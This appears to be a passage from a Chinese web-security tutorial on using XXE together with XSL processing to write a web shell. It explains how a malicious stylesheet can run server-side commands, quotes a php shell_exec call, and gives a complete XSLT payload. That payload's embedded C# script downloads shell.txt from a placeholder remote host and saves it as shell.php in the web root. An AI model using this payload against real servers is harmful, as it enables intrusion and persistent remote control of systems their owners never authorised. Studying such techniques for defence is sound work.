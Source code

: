 ![image.png](assets/1700812438-6a9629875933e45286d213037e427bf1.png)

## 2.6、XXE写shell

当服务器支持XSL（可扩展样式表语言）时，就可以利用XXE漏洞来执行任意代码。在XML文档中引用一个恶意的XSL样式表，这个样式表可以包含任意的XSL命令，如<xsl:value-of select="php:function('shell\_exec', 'your command here')"/>。当服务器解析这个XML文档时，它将尝试应用这个XSL样式表，从而执行任意代码。

```php
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"/var/www/html/shell.php");
return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```
